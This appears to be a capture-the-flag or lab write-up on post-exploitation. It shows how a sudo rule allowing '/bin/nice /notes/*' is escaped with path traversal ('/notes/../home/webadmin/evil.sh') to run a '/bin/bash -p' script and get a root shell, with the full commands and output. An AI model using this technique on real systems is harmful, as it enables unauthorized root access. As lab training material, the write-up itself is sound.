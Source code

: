 # Post-Exploitation

---

## Sudo -l

```bash
webadmin@serv:/home/florianges$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*

```

We can run _/bin/nice_ with sudo privileges against anything after _/notes/_.

If we place a script to execute a _/bin/bash_ shell in our _/home/webadmin_ directory we should get a shell with root privileges.

```bash
webadmin@serv:~$ vi evil.sh

# write a simple /bin/bash script
#!/bin/bash

/bin/bash -p

# Make the script executable
chmod +x evil.sh

# Execute and get elevated privileges
webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/evil.sh
root@serv:/home/webadmin# id
uid=0(root) gid=0(root) groups=0(root)


```
